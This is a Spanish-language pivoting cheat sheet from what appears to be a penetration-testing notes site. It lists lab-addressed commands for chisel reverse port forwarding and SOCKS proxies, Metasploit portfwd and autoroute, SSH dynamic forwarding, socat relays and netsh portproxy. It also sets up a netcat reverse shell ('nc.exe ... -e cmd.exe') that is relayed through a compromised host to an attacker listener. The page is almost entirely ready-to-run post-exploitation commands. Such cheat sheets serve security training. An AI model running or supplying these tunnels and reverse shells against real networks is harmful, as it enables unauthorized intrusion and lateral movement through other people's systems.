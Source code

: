 ```yaml
---
title: "Pivoting"
draft: false
images: []
description: "Pivoting cheatsheetwith chisel, socat and metasploit"
lead: "Pivoting cheatsheetwith chisel, socat and metasploit"
menu:
  docs:
    parent: "Privesc"
weight: 100
toc: true
---
```



## <span style="color:#208355"> Port Forwarding </span>

Se crea una conexión entre un puerto local y un solo puerto en un objetivo, a través de un host comprometido. Esta técnica tiende a ser más rápida y más confiable que el proxy, pero solo nos permite acceder a un solo puerto (o un pequeño rango) en un solo dispositivo de destino. 

### <span style="color:#208355">Chisel Port Forwarding</span>

**Kali Machine** - 192.168.100.118
```bash
chisel server --reverse -p 1234
```

* reverse: permite a los clientes establecer conexiones reverse tunneling
* p: puerto de escucha http

**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```bash
chisel client 192.168.100.118:1234 R:127.0.0.1:80:10.0.0.3:80
```

* R: \<local-interface\>:\<local-port\>:\<remote-host\>:\<remote-port\>


### <span style="color:#208355">Metasploit Portfwd</span>

In a meterpreter session

```bash
portfwd add -l 1234 -p 3389 -r 10.10.10.10
```
* l: puerto de escucha local
* p: puerto remoto a conectarse
* r: host remoto a conectarse
---

## <span style="color:#208355">Proxying/Tunneling</span>

Cuando hablamos de proxy, creamos una conexión a través de una máquina comprometida para enrutar todo el tráfico deseado a la red de destino. Un proxy es útil si deseamos redirigir mucho tráfico a nuestra red de destino, por ejemplo, un escaneo NMAP o para acceder a múltiples puertos en múltiples máquinas diferentes.

### <span style="color:#208355">Chisel Socks Proxy</span>

**Kali Machine** - 192.168.100.118
```bash
chisel server --reverse -p 1234
```

* reverse: permite a los clientes establecer conexiones reverse tunneling
* p: puerto de escucha http

**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```bash
chisel client 192.168.100.118:1234 R:socks
```

### <span style="color:#208355">SSH Port Dynamic Forwarding</span>

**Kali Machine** - 192.168.100.118
```bash
ssh kryot@10.0.0.2 -D 1337
```
* D: puerto dinámico local

**Burpsuite** 
```bash
Configure User Options - SOCKS Proxy
Host 127.0.0.1
Port 1337
```
**Proxychains**
```bash
nano /etc/proxychains.conf
```

### <span style="color:#208355">SOCAT Tunneling</span>

**Kali Machine** - 192.168.100.118
```bash
nc -lvnp 7878
```
**Ubuntu Machine** - 192.168.100.135/10.0.0.2
```bash
socat TCP-LISTEN:7777,reuseaddr,fork tcp:192.168.100.118:7878
```
* TCP-LISTEN: establece puerto en escucha
* reuseaddr: permite reutilizar el puerto después de la finalización del programa
* fork: indicamos que socat pueda aceptar más de una conexión.

**Windows Machine** - 10.0.0.3
```bash
nc.exe 10.0.0.2 7777 -e cmd.exe
```

### <span style="color:#208355">Windows Proxying</span>

```bash
netsh interface portproxy add v4tov4 listenport=9999 listenaddress=0.0.0.0 connectport=9999 connectaddress=10.90.60.80
```

### <span style="color:#208355">Metasploit Autoroute</span>

In a meterpreter session

```bash
run autoroute -s 10.0.0.3 -n 255.255.255.0
```
* s: host
* n: máscara de red - default 255.255.255.0
